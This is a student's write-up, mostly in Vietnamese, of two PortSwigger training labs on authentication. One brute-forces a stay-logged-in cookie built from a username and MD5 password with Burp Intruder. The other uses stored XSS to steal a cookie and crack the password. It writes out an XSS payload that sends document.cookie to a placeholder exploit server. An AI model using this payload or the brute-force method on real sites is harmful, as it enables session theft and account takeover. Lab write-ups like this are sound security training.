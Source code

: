 # Authentication Vulnerabilities (other authentication mechanisms)

**Objective**:

* In this section, we'll look at some of the supplementary functionality that is related to authentication and demonstrate how these can be vulnerable.

In this lab, students need to:

* Perform two challenges:
  * [Brute-forcing a stay-logged-in cookie](https://portswigger.net/web-security/authentication/other-mechanisms/lab-brute-forcing-a-stay-logged-in-cookie)
  * [Offline password cracking](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking)
* Explain and capture all steps (full windows screen capture).
* **Challenge 1:** [Brute-forcing a stay-logged-in cookie](https://portswigger.net/web-security/authentication/other-mechanisms/lab-brute-forcing-a-stay-logged-in-cookie)

This lab allows users to stay logged in even after they close their browser session. The cookie used to provide this functionality is vulnerable to brute-forcing.

To solve the lab, brute-force Carlos's cookie to gain access to his "My account" page.

* Your credentials: `wiener:peter`
* Victim's username: `carlos`
* [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

![](.gitbook/assets/0.png)

Đầu tiên, ta sẽ đăng nhập vs username và password mà đề bài đưa ra. Và tích vào phần stay-login

![](.gitbook/assets/1.png)

Vào burpsuite, tại phần get /account ta thấy một mã tại phần stay-login. Quan sát sang phần inspector ta có: wiener:51dc30ddc473d43a6011e9ebba6ca770. Ta có thể thấy session được tạo bởi username : md5encodingpassword

![](.gitbook/assets/2.png)

Crack mã md5 tại crackstation ta ra đc mật khẩu mà ta đã nhập vào trước. sau đó ta sẽ gửi request này vào intruder

![](.gitbook/assets/3.png)

Tại đây, ta sẽ paste list password mà đề bài cho. Tại phần processing payload, ta sẽ thêm

Hash: MD5 -> encode password bằng mã md5

Add Prefix: carlos: -> add carlos: vào đầu mỗi mã

Base64-encode -> encode mã thành base64

![](.gitbook/assets/4.png)

![](.gitbook/assets/5.png)

Sau khi bruteforce, ta quan sát đc 1 payload có kết quả khác các payload còn lại. mở response bằng browser, t đã đăng nhập đc vào tk carlos

![](.gitbook/assets/6.png)

![](.gitbook/assets/7.png)

Base64 decode session:

![](.gitbook/assets/8.png)

Md5 decode -> password: monitoring  &#x20;

* &#x20;                                   Challenge 2: [Offline password cracking](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking)

This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's `stay-logged-in` cookie and use it to crack his password. Then, log in as `carlos` and delete his account from the "My account" page.

* Your credentials: `wiener:peter`
* Victim's username: `carlo`

ở challenge này, như các challenge khác ta vẫn sẽ đăng nhập với account wiener:peter. Sau đó ta sẽ vào exploit server

![](.gitbook/assets/9.png)

Tiếp theo, copy url của expoit server

![](.gitbook/assets/10.png)

Vào comment post của 1 bài bất kì, ta sẽ comment dựa trên cú pháp của html : \<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie\</script>

![](.gitbook/assets/11.png)

Sau khi post comment, Quay trở lại exploit server và mở access log rồi quan sát. Ta thấy 1 log có chứa nội dung lạ và ip lạ. ta sẽ cop nội dung ở stay-logged-in

![](.gitbook/assets/12.png)

Đưa vào decoder bằng base 64, ta đã ra đc tk vs username là carlos

![](.gitbook/assets/13.png)

Tiếp tục decode mã hash ở sau, ta có đc mk là : onceuponatime.

![](.gitbook/assets/14.png)

Đăng nhập thành công vào tài khoản và xóa mật khẩu. ta đã hoàn thành bài lab

![](.gitbook/assets/15.png)
